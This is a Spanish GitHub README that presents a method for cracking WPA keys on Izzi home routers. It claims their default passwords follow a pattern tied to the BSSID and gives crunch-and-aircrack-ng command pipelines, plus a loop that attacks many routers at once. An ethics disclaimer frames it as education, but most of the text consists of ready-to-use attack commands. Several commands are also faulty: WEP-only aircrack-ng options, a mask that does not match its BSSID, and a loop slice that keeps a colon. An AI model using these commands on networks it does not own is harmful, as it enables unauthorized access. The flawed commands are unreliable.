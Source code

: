 # 🔍 Método de Auditoría WiFi para Routers Izzi

![GitHub License](https://img.shields.io/github/license/rodrigo47363/izzi-wifi-audit-method?color=blue)
![Platform](https://img.shields.io/badge/Platform-Linux-lightgrey)
![Tool](https://img.shields.io/badge/Tools-crunch%20%7C%20aircrack--ng-red)
[![GitHub Stars](https://img.shields.io/github/stars/rodrigo47363/izzi-wifi-audit-method?style=social)](https://github.com/rodrigo47363/izzi-wifi-audit-method)

Este repositorio documenta una metodología profesional para analizar patrones de seguridad en routers Izzi, diseñado para auditorías éticas en entornos controlados.

```mermaid
graph LR
A[Captura Handshake] --> B[Generar Diccionario]
B --> C[Prueba de Contraseñas]
C --> D[Resultados de Auditoría]
```

> ⚠️ **Advertencia Ética**  
> Este método está diseñado **exclusivamente para fines educativos y pruebas autorizadas**. El uso no autorizado de estas técnicas es ilegal y va en contra de los principios éticos de seguridad.

## 🌟 Características Clave

- **Patrones específicos** para routers Izzi
- **Optimización de diccionarios** con `crunch`
- **Validación rápida** con `aircrack-ng`
- **Documentación completa** para cada paso del proceso
- **Casos prácticos** con ejemplos reales

## 🚀 Comenzar Rápido

### Requisitos del Sistema
```bash
# Instalar herramientas en Kali Linux
sudo apt update
sudo apt install -y crunch aircrack-ng
```

### Ejemplo con Patrón Conocido
```bash
# Cuando conoces parte de la contraseña
sudo crunch 12 12 -t F82DC0@@C5DC -f Diccionario.lst anu | \
aircrack-ng --bssid 00:11:22:33:44:55 -w- IZZI-C5DC.cap
```

### Ejemplo sin Patrón Conocido
```bash
# Cuando no tienes información previa
sudo crunch 10 12 -f Diccionario.lst anu | \
aircrack-ng --bssid 00:11:22:33:44:55 -w- IZZI-0652.cap
```

## 🧠 Metodología Detallada

### 1. Patrones de Contraseñas Izzi
Los routers Izzi suelen usar patrones predecibles:
- Longitud: 12 caracteres
- Formato: `XXXXXX@@XXXX`
- Caracteres: A-Z, 0-9 (sin minúsculas)
- Relación con BSSID: Últimos 4 caracteres de la BSSID

### 2. Generación de Diccionarios
Uso avanzado de `crunch`:
```bash
# Generar diccionario con máscara específica
crunch 12 12 -t F82DC0@@@@@@ -o izzi_dict.txt

# Parámetros clave:
# -t: Patrón con @@ como placeholder
# -d: Limitar caracteres repetidos
# -s: Punto de inicio para continuar trabajos
```

### 3. Técnicas de Optimización
| Técnica | Comando | Beneficio |
|---------|---------|-----------|
| **Filtrado por BSSID** | `-t @@@@@@@@` + últimos 4 BSSID | Reduce espacio de búsqueda |
| **Generación incremental** | `crunch 10 12 ...` | Cubre diferentes longitudes |
| **Uso de GPU** | Combinar con `hashcat` | Acelera proceso 10x |

### 4. Análisis de Capturas
```bash
# Comandos esenciales de aircrack-ng
aircrack-ng -z captura.cap        # Método estándar
aircrack-ng -K captura.cap        # Modo acelerado
aircrack-ng -r diccionario.hccap  # Usar diccionario precomputado
```

## 📂 Estructura del Repositorio

```plaintext
izzi-wifi-audit-method/
├── docs/                  # Documentación técnica
│   ├── patrones-izzi.md   # Patrones de contraseñas
│   ├── guia-crunch.md     # Uso avanzado de crunch
│   └── optimizacion.md    # Técnicas de optimización
├── scripts/               # Scripts de automatización
│   ├── generador.sh       # Generador de diccionarios
│   └── analizador.sh      # Script de análisis
├── capturas/              # Ejemplos de capturas
│   ├── ejemplo1.cap       # Captura de ejemplo
│   └── README.md          # Instrucciones
└── diccionarios/          # Diccionarios pregenerados
    └── base.lst           # Diccionario base
```

## 🔧 Configuración Recomendada

| Componente | Recomendación | Notas |
|------------|---------------|-------|
| **CPU** | 4+ núcleos | Para generación paralela |
| **RAM** | 8GB+ | Manejo de diccionarios grandes |
| **GPU** | NVIDIA CUDA | Aceleración con hashcat |
| **Almacenamiento** | SSD 256GB+ | Para operaciones I/O intensivas |
| **Sistema** | Kali Linux 2023+ | Entorno óptimo para pentesting |

## 🧩 Casos de Estudio

### Caso 1: Router con BSSID conocido
```bash
# BSSID: 00:1A:2B:3C:4D:5E
crunch 12 12 -t @@@@@@@@5D5E -o target_dict.txt
aircrack-ng -b 00:1A:2B:3C:4D:5E -w target_dict.txt captura.cap
```

### Caso 2: Auditoría masiva
```bash
# Script para múltiples routers
for bssid in $(cat targets.txt); do
  last4=${bssid: -4}
  crunch 12 12 -t @@@@@@@@$last4 -o ${bssid}_dict.txt
  aircrack-ng -b $bssid -w ${bssid}_dict.txt capturas/${bssid}.cap
done
```

## 📜 Licencia y Ética

Este proyecto se distribuye bajo la [Licencia MIT](LICENSE). 

**Declaración Ética:**  
> "El conocimiento compartido aquí tiene como único propósito fortalecer la seguridad informática. El autor no se hace responsable del mal uso de esta información. Siempre obtén permiso por escrito antes de realizar cualquier prueba de seguridad."

---

**Rodrigo** - Especialista en Ciberseguridad  

# 🌐 Conecta Conmigo

[![LinkedIn](https://img.shields.io/badge/LinkedIn-Rodrigo_V-blue?logo=linkedin&style=for-the-badge)](https://linkedin.com/in/rodrigo-v-695728215)
[![GitHub](https://img.shields.io/badge/GitHub-rodrigo47363-black?logo=github&style=for-the-badge)](https://github.com/rodrigo47363)
[![YouTube](https://img.shields.io/badge/YouTube-@Rodrigo--47363-red?logo=youtube&style=for-the-badge)](https://youtube.com/@Rodrigo-47363?sub_confirmation=1)
[![HackTheBox](https://img.shields.io/badge/Hack_The_Box-Perfil-green?logo=hackthebox&style=for-the-badge)](https://app.hackthebox.com/profile/2072477)
[![ProtonMail](https://img.shields.io/badge/Email-rodrigovil@proton.me-purple?logo=protonmail&style=for-the-badge)](mailto:rodrigovil@proton.me)
[![TryHackMe](https://img.shields.io/badge/TryHackMe-Rodrigo.47363-darkblue?logo=tryhackme&style=for-the-badge)](https://tryhackme.com/p/Rodrigo.47363)

## 📧 Contacto Directo
**Correo profesional:** [rodrigovil@proton.me](mailto:rodrigovil@proton.me)  
**LinkedIn:** [https://linkedin.com/in/rodrigo-v-695728215](https://linkedin.com/in/rodrigo-v-695728215)  
**Colaboraciones técnicas:** Abierto a proyectos de seguridad y pentesting

## 🔗 Enlaces Especiales
[![HackTheBox Referral](https://img.shields.io/badge/Únete_a_HackTheBox-Referido-9FEF00?logo=hackthebox&style=for-the-badge)](https://referral.hackthebox.com/mz7ZtlJ)
[![TryHackMe Referral](https://img.shields.io/badge/Únete_a_TryHackMe-Referido-212C42?logo=tryhackme&style=for-the-badge)](https://tryhackme.com/signup?referrer=64f0d7665fde58f3ec71379b)

## 💖 Apoya Mi Trabajo
[![Bitcoin](https://img.shields.io/badge/Bitcoin-bc1qkzmpd0hry99qms7ef23vsyx9vt34pzzaslpp8y-orange?logo=bitcoin&style=for-the-badge)](bitcoin:bc1qkzmpd0hry99qms7ef23vsyx9vt34pzzaslpp8y)
[![Ethereum](https://img.shields.io/badge/Ethereum-0xB75bC57C54FCBFF139EBF981A596B019C537d018-blue?logo=ethereum&style=for-the-badge)](https://etherscan.io/address/0xB75bC57C54FCBFF139EBF981A596B019C537d018)
[![Solana](https://img.shields.io/badge/Solana-ELekuGHcmZjhXrtHNqHuu8QmdCZr3oCWtTmu3QUQ5hac-purple?logo=solana&style=for-the-badge)](https://solscan.io/address/ELekuGHcmZjhXrtHNqHuu8QmdCZr3oCWtTmu3QUQ5hac)

---

**"La seguridad es un proceso continuo, no un destino final. ¡Conectemos y fortalezcamos juntos el ecosistema de ciberseguridad!"** 🔐
